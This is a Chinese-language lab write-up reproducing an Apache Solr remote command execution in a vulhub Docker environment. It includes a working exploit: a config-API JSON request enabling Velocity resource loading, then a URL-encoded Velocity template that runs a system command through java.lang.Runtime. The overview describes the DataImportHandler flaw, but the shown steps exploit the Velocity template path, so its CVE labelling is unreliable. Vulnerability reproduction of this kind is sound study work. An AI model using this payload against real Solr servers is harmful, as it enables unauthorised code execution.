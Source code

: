 ```yaml
---
description: CVE-2019-0193
---
```


# Apache Solr 远程命令执行漏洞（CVE-2019-0193）

以下内容来自「[是大方子-Apache Solr 远程命令执行漏洞（CVE-2019-0193）](https://note.youdao.com/ynoteshare1/index.html?id=59ba4b4d77327e0b12cfb9a67f114956&type=note)」，我看了他写的复现报告之后，认为写的还可以，并搭建环境完成了复现，具体内容如下：

## 0x00 准备工作

漏洞环境可以采用vulhub的github：

* [https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193)

漏洞原理与分析可以参考：

* [https://mp.weixin.qq.com/s/typLOXZCev\_9WH\_Ux0s6oA](https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA)
* [https://paper.seebug.org/1009/](https://paper.seebug.org/1009/)

## 0x01 Solr简介

Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；也可以通过Http Get操作提出查找请求，并得到XML格式的返回结果。

## 0x02 漏洞概述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。本环境测试RCE漏洞。  
  
漏洞影响范围：Apache Solr &lt;= 8.2.0，Apache Solr 5.x - 8.2.0，存在config API版本

## 0x03 漏洞环境

运行漏洞环境：

```text
docker-compose up -d
```

```bash
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问环境

```text
http://10.26.231.203:8983/solr/#/
```

访问test的配置文件

![](../../.gitbook/assets/image%20%286%29.png)

```text
http://10.26.231.203:8983/solr/test/config
```

## 0x04 漏洞复现

访问上述网址并抓包并修改发送方式为POST，然后利用s00py公布的poc修改向config发送json配置继续修改

```text
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

{% hint style="danger" %}
注意：图示这2个位置要修改
{% endhint %}

![](../../.gitbook/assets/image%20%284%29.png)

然后就可以进行RCE

```text
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 10.26.231.203:8983
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Connection: close
```

![](https://note.youdao.com/yws/public/resource/59ba4b4d77327e0b12cfb9a67f114956/xmlnote/6A6CE5A6CCFA4F589061DB43FAF99AC4/73795)

